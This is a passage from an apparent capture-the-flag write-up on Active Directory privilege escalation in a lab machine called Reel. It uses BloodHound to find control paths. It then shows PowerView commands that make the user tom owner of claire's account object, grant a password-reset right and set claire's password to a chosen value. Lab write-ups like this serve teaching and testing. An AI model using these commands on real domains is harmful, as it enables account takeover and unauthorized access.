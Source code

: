 #### Analysis

With data loaded, the default view is all the paths to Domain Admin. As
tom said in his note, there's no paths from user to Domain Admin, so
it's just empty.

I'll start with tom. After putting tom in as the user, I'll look at
"First Degree Object Control" to see what object tom directly controls,
and then "Transitive Object Control" to see where that could go if
iterated out. Sometimes if the graph is hard to read, the refresh button
will redraw it better:

![](/img/reel-bloodhound.gif)

This analysis shows the same path to Backup_Admins through claire.

## Privesc: tom -\> claire

To move to the claire account, I'll use the WriteOwner permission along
with the functionality of PowerView to take the following steps:

-   Become owner of claire's ACL
-   Get permissions on that ACL
-   Use those permissions to change the password

For each of these steps, I'll need PowerView, and PowerShell. Luckily,
there's a copy in `C:\Users\tom\Desktop\AD Audit\BloodHound`, so I will
start up PowerShell and import it:



    tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>powershell
    Windows PowerShell
    Copyright (C) 2014 Microsoft Corporation. All rights reserved.

    PS C:\Users\tom\Desktop\AD Audit\BloodHound> . .\PowerView.ps1



Next, I'll set tom as the owner of claire's ACL:



    PS C:\users\tom\desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom



Next, I'll give tom permissions to change passwords on that ACL:



    PS C:\users\tom\desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword



Now, I'll create a credential, and then set claire's password:



    PS C:\users\tom\desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
    PS C:\users\tom\desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred
